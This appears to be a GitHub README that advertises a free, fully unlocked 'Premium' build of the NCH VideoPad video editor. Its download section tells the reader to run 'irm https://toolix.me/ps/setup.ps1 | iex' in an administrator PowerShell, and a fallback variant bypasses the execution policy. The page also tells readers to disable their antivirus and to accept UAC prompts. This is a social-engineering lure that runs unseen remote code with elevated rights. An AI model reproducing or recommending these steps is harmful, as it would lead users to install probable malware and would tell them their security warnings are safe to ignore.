

***

# NCH VideoPad Timeline Editor Premium

<p align="center">
  
</p>

NCH VideoPad Timeline Editor Premium — Windows 11 and 10 build | simple panels | quick to start.

## About this application

**NCH VideoPad Timeline Editor Premium** in this repo is a Windows desktop package built for practical use. Expect a normal first launch, access to the complete toolkit with all professional modules enabled, and steady sessions on a standard PC.

**Security tip:** when a scanner quarantines the package, **disable AV for a few minutes**, complete installation, and enable it again afterward.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Is it free to download?** Yes — it's free to download and use.

**Does it work on Windows?** Yes, it's built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Allow it — that's a standard security prompt.

## About

NCH VideoPad Timeline Editor Premium is aimed at users who want a direct install and a calm workspace on desktop Windows.

## What's included

Everything ships configured for local work — start the app and pick up where you left off. Full pro modules are active once setup finishes.

## Features

⚡ Snappy boot
🧰 Session presets
📉 Clear status view
🔐 Local options
📎 Sequence tools
📎 Output presets
📎 Clip storage

## Good for

- 📌 Creator desks
- 🎯 Broadcast rigs
- ⭐ Timeline work

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 6 GB minimum | 12 GB recommended
* **Disk:** 5 GB available storage

***